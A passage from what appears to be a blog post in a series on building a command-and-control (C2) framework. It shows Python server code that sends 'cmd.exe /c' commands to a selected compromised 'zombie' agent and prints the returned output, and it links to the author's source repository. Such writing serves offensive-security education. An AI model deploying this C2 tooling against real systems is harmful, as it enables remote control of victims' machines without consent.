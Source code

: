 > And finally, the code to execute commands on the victim/zombie agent:

```python
if choice == "execute":
            try:
                print("Enter your command you would like to execute on the agent below")
                thecommand=input(":")
                clientlist[selection][1].send(f"c0mm@nd\ncmd.exe /c {thecommand}\n".encode('utf-8'))
                print(Fore.GREEN + "[+] command sent!" + Fore.WHITE)
                #clientlist[selection][1].settimeout(4)
                while True:
                    data2=clientlist[selection][1].recv(1024)
                  
                    if not data2 or ":endofoutput:" in data2.decode():
                        endoutput=data2.decode()
                        endoutput = endoutput.replace(":endofoutput:", "")
                        print(endoutput, end='')
                        break
                    #proclist = proclist.decode('UTF-8')
                    #print(proclist)
                    print(data2.decode(), end='')
                input("[+] DONE! Press any key to return...")
            except:
                print(Fore.RED + "[+] Either reached end of output for receiving socket or..." + Fore.WHITE)
                print(Fore.RED + "[!] there was an error sending the command to the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
```
Source code located in the usual spot:

[https://github.com/g3tsyst3m/CodefromBlog](https://github.com/g3tsyst3m/CodefromBlog)

Also, here's the GIF I used in my X post that demo's it all!  

![c2_part2](https://github.com/user-attachments/assets/debf1b8d-be1f-446f-a62a-e46f2269e565)

Thanks everyone, and be sure to stay tuned for `Part 3` where we explore `getsystem` and `process migration` techniques and incorporate them into our code!

















